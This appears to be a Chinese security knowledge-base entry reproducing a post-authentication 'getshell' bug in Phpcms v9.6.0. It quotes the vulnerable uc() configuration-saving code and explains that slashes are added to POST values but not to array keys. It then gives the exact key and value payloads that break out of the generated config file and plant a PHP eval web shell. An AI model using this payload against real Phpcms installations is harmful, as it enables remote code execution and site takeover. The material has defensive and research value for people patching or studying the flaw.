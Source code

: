 Phpcms v9.6.0后台getshell
=========================

一、漏洞简介
------------

phpsso\_server 后台getshell

二、漏洞影响
------------

Phpcms v9.6.0

三、复现过程
------------

漏洞来自于ROOTDIR/phpsso\_server/phpcms/modules/admin/system.php

    public function uc() {
            if (isset($_POST['dosubmit'])) {
                $data = isset($_POST['data']) ? $_POST['data'] : '';
                $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
                $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
                $config = include $filepath;
                $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
                foreach ($data as $k => $v) {
                    $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                    $new[] = "'$k'=>'$v',";
                    $uc_config .= "define('".strtoupper($k)."', '$v');\n";
                }
                $html = file_get_contents($filepath);
                $html = str_replace($old, $new, $html);
                $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
                @file_put_contents($uc_config_filepath, $uc_config);
                @file_put_contents($filepath, $html);
                $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
                showmessage(L('operation_success'), HTTP_REFERER);
            }
            $data = array();
            $r = $this->db->get_one(array('name'=>'ucenter'));
            if ($r) {
                $data = string2array($r['data']);
            }
            include $this->admin_tpl('system_uc');
        }

来自这段中的

\$data = isset(\$\_POST\[\'data\'\]) ? \$\_POST\[\'data\'\] : \'\';

和

foreach (\$data as \$k =\> \$v) {\$old\[\] = \"\'\$k\'=\>\'\".(isset(\$config\[\$k\]) ? \$config\[\$k\] :
\$v).\"\',\";\$new\[\] = \"\'\$k\'=\>\'\$v\',\";\$uc\_config .= \"define(\'\".strtoupper(\$k).\"\', \'\$v\');\\n\";}

这里接收post\[\'data\'\]数据中的key，value并写入配置文件ROOTDIR/phpsso\_server/caches/configs/uc\_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

    public function __construct() {
            if(!get_magic_quotes_gpc()) {
                $_POST = new_addslashes($_POST);
                $_GET = new_addslashes($_GET);
                $_REQUEST = new_addslashes($_REQUEST);
                $_COOKIE = new_addslashes($_COOKIE);
            }

全局过滤了post，但是这里只过滤了value，并没有过滤key

![](./.resource/Phpcmsv9.6.0后台getshell/media/rId24.png)

在这个地方，我们可以构造

    name="data[uc_api','11');/*]"

并在Ucenter api 地址输入:

    */eval($_REQUEST[test]);//

再进行缓存更新

![](./.resource/Phpcmsv9.6.0后台getshell/media/rId25.png)

就成功写入了一句话

![](./.resource/Phpcmsv9.6.0后台getshell/media/rId26.png)

![](./.resource/Phpcmsv9.6.0后台getshell/media/rId27.png)
